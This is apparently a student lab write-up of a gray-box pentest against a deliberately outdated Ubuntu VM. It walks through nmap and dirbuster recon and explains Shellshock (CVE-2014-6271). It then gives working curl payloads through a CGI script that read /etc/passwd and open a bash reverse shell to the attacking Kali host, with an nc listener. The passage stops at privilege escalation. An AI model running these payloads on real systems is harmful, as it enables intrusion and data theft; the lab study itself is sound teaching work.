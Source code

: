 ## Part 4C-4D-4E: Doing an attack

In those part of the lab they are not much of instructions. They seem to be more of a free exploration of the tools and of pentest methodologies. 
So, we will try to attack an ubuntu machine using the kali machine.

> [!NOTE]
> In this part we will try to get access to the ubuntu machine. For a real pentest, we would need to be more exaustive and check for every possible vulnerabilities. 

### Setup

We have two virtual machines: 

- **Kali** (attacker)
        IP: `192.168.56.11`
- **Ubuntu** (victim)
        IP: `192.168.56.2`

This ubuntu machine come from a previous lab we have done in network security. We have installed a web server on it.
The lab being really old, we can guess that the web server is not up to date and that it may have some vulnerabilities.

We will consider this pentest as a gray box pentest, meaning that we have some information about the target (since we have set it up).

### Recon: Finding Services

First we will do some recon on the ubuntu machine. We will use `nmap` to scan the network and find the open ports.
We will use aggressive scan to get more information.

![nmap](./img/nmap.png)

Let's take a close look at the informations we have:

- Port 22: SSH
        OpenSSH 6.6.1 
- Port 80: HTTP
        Apache httpd 2.4.7

We also have the kernel version of the machine: `3.x | 4.x`. And we know that the machine is running on Ubuntu.

When we go to the web server we see this lovely page:

![website](./img/website.png)

With those service, let's try to find some vulnerabilities.

After looking using the searchsploit tool, we found this CVE: `CVE-2014-6271` ([link](https://www.exploit-db.com/search?q=Shellshock&cve=2014-6271)). This is a vulnerability in the bash shell that allows remote code execution.
This is interesting because the default bash version on ubuntu 14.04 is `4.3` (the one mentionned in the CVE).
Let's try to exploit this vulnerability.

### Vulnerability Explanation

This vulnerability is called `Shellshock`. Shellshock is a vulnerability in the Bash shell where it improperly handles specially crafted environment variables. When Bash processes an environment variable that looks like a function definition, it also executes any code that follows it. This means an attacker can inject extra commands into an environment variable, and when Bash is invoked (for example, by a CGI script in a web server), it will run those commands. Essentially, the bug allows remote code execution by exploiting how Bash parses and executes its environment.

CGI (Common Gateway Interface) is a standard that allows a web server (like Apache) to execute external programs or scripts to generate dynamic content. 

When a request is made to a URL mapped to a CGI script (usually under `/cgi-bin/`), the server sets up an environment (with variables like `HTTP_USER_AGENT`, `QUERY_STRING`, etc.) and then executes the script. The script's output (including `HTTP` headers) is then sent back to the client.

In the case of Shellshock, if the CGI script is executed using Bash, any malicious input in the environment variables (such as a crafted `User-Agent`) can trigger the vulnerability. This is why having a CGI script that invokes Bash is key to exploiting Shellshock.

Let's look for a CGI script on the target server that invokes Bash.

 ### Recon: Finding CGI Scripts

 We will use dirbuster to find the cgi scripts on the server. Confuring dirbuster is really easy:

- We specify the target URL: `http://192.168.56.2/cgi-bin/`
- We specify the wordlist we want to use: `common.txt`
- We specify the file extension we want to look for: `cgi`

 ![dirbuster](./img/dirbuster.png)

 We have foud many result but the most interesting one is `test.cgi`. Let's try to access it.

 ![cgi_access](./img/cgi_access.png)

 This is the default page of the cgi script, we can see that it is a bash script. This is interesting because we can try to exploit the shellshock vulnerability.

 ### Exploit

 To exploit the vulnerability we will use the following command:

 ```bash
curl -i -H 'User-Agent: () { :; }; echo; echo; /bin/bash -c "cat /etc/passwd"' \                            
http://192.168.56.2/cgi-bin/test.cgi
```

This command will send a request to the server with a crafted `User-Agent` header that exploits the Shellshock vulnerability. The payload is a Bash function definition that runs the `cat /etc/passwd` command.

![exploit1](./img/exploit1.png)

It worked ! We have the content of the `/etc/passwd` file. This is a good start, we can now try to get a reverse shell.

### Reverse Shell

To get a reverse shell we will use the following command:

```bash
curl -i -H 'User-Agent: () { :; }; echo; echo; /bin/bash -c "bash -i >/dev/tcp/192.168.56.11/4444 0>&1"' \
http://192.168.56.2/cgi-bin/test.cgi
```

To create a reverse shell we will use the `bash -i` command. This command will create an interactive shell. We will redirect the input and output of the shell to a TCP connection to our machine on port `4444`.

we also need to listen on the port `4444` on our machine. We will use the following command:

```bash
nc -lvp 4444
```

here is the result:

![reverse_shell](./img/reverse_shell.gif)

we have successfully got a reverse shell on the ubuntu machine.

Now we can try to escalate our privileges.

### Privilege Escalation

Let's try to find out our current privileges:

![whoami](./img/whoami.png)

We are currently running as the `www-data` user. This is the user that the apache server is running as. This is a low privilege user, we will try to escalate our privileges.

